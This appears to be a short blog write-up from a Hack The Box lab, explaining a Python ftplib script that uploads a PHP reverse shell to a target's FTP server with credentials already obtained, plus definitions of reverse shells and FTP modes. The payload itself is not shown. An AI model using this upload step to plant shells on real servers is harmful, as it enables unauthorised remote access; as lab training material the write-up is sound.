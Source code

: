 ```yaml
---
layout: post
title: Python Script to uload file to an FTP server
---
```


## Boring Explanations *tldr

I was working on **HTB** the other day and came across a mini hurdle that led to this post. I needed to upload a **PHP reverse shell** via **ftp**, and I had already acquired the credentials to login via ftp. However, ftp was operating file upload in **binary mode**, hence nomatter how many times i tried to upload the file using **put** , it did not work.

![FTP Binary Mode]({{site.url }}/imgs/ftp/ftp1.png)

So i did some research and figured I can write a python script with less than 10 lines to do the job. 

- HTB: Hack the Box(htb) is an online platform with over 200 vulnerable machines that can be manipulated to practice and develop penetration testing skills. It is a really great way to learn about real life vulnerabilities as well as enumeration and privelege escalation techniques. View their site [here](https://www.hackthebox.eu).
- A reverse shell: A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack.You can read more about reverse shells [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/).
- FTP: File Transfer Protocol:The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network. FTP is built on a client-server model architecture using separate control and data connections between the client and the server.Read more about ftp [here](https://searchnetworking.techtarget.com/definition/File-Transfer-Protocol-FTP).
- FTP binary mode: Binary transfer mode is an FTP mode used to transfer files without modification or conversion. Files are transferred without conversion resulting in the same file on the source computer as the destination computer. Visit this [link](https://knowledge.broadcom.com/external/article/28212/ftp-ascii-vs-binary-mode-what-it-means.html) to understand more.
- FTP put:This is a command used to copy a file from the local system to the remote system. This [site](http://www.simotime.com/ftp4cmd1.htm#FTPcommandlist) shows a list of ftp commands and their descriptions.

## The script

![FTP Binary Mode]({{site.url }}/imgs/ftp/ftp2.png)

We'll be breaking down the script and explaining it line by line.

```
import ftplib
```
ftplib is an FTP protocol client that implements the client side of FTP protocol. We need to use this to connect to the ftp server hence we import it. 

```
server = ftplib.FTP('10.10.10.197', 'username', 'password')
```

Next, we define the ftp server(the url which we want to connect to) and the credentials we are going to be using to login. 

```
with open('revshell.php', 'rb') as upload_file:
    server.storbinary('STOR username/revshell.php', upload_file)
```

Next we make sure that the reverse shell that we want to upload to the ftp server is in the directory that we are working in. We open the file in binary mode(**rb**) and use the method storbinary to upload it. The method [storbinary()](https://pythontic.com/ftplib/ftp/storbinary) initiates a file transfer from an FTP client to a an FTP server using the FTP command STOR.
The file transfer is done in binary mode.

```
print(server.dir('username'))
```
Lastly, we issue a print statement to view the file we just uploaded in the user directory.

Here's the code in full:

```
import ftplib

server = ftplib.FTP('10.10.10.197', 'username', 'password')
with open('revshell.php', 'rb') as upload_file:
    server.storbinary('STOR username/revshell.php', upload_file)

print(server.dir('username'))

```

There you have it, a very easy and straight forward script that can come in handy!